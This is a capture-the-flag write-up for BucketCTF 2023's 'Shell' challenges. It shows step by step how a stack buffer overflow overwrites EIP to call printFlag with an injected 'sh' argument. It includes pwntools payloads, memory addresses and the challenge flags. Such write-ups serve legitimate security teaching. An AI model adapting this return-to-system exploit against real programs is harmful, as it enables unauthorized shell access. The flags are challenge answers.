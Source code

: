 > **Shell Medium**
> Run a command and get the flag.
> ASLR is off on the server.

> **Shell Hard**
> Maybe changing the code isnt the right direction.
> Note: The binary from shell has not changed

The functions here are exactly the same as in the task [PWN - Never Called](BucketCTF%202023/PWN%20-%20Never%20Called/PWN%20-%20Never%20Called%20(Easy).md), but only the printFlag function is different, it now takes the *command* parameter and calls *system*.

![](1.png)

Offset remains the same - 62, the address of the printFlag function is 0x5655628b.

![](2.png)
![](3.png)

Now let's try the exploit from **Never Called**, but change the payload itself to the next one to get a better understanding of what will happen.

```python
payload2 = flat(
    b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapa',
    p32(0x5655628b),
)
```

And in EDB let's see what happens in the printFlag function. We set breakpoint at address 0x5655628b. Our payload is written into the stack and output to the terminal. And the same thing happens before calling *system*.

![](4.png)
![](5.png)

We see that the last to be written from our line is 'aala'. Then we write *'sh'* instead and after it and the flaw byte to overwrite the EIP register. And add another 20 characters and see what happens to the program.

```python
payload2 = flat(
    b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaaka',
    b'sh\x00',
    b'aaamaaanaaaoaaapp',
    p32(0x5655628b),
    b'aaaabaaacaaadaaaeaaa',
)
```

So, the program crashed when trying to address **0x61616162 (baaa)**. We get offset - 4.

![](6.png)

So after overwriting the EIP register we need to add 4 bytes and the memory address of the 'sh' line. Our command has the address **0x5655a5da**.

![](7.png)

Now let's rewrite the payload and run our exploit.

```python
payload = flat(
    b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaaka',
    b'sh\x00',
    b'aaamaaanaaaoaaapp',
    p32(0x5655628b),
    b'B' * 4,
    p32(0x5655a5da)
)
```

Run the exploit command and gain control over the task container.

```sh
python3 shell.py DEBUG
```

![](8.png)

I never understood the difference between the tasks, I was just lucky that the exploit fit both tasks! Judging by the description of the Hard task, it was possible to solve the Medium task by changing the code.

> [Full exploit](shell.py)
> Flag Medium: **bucket{5h331_4cc355_d8ebd45cc}**
> Flag Hard: **bucket{41w4y5_check_h1dd3n_f2f31ec5}**
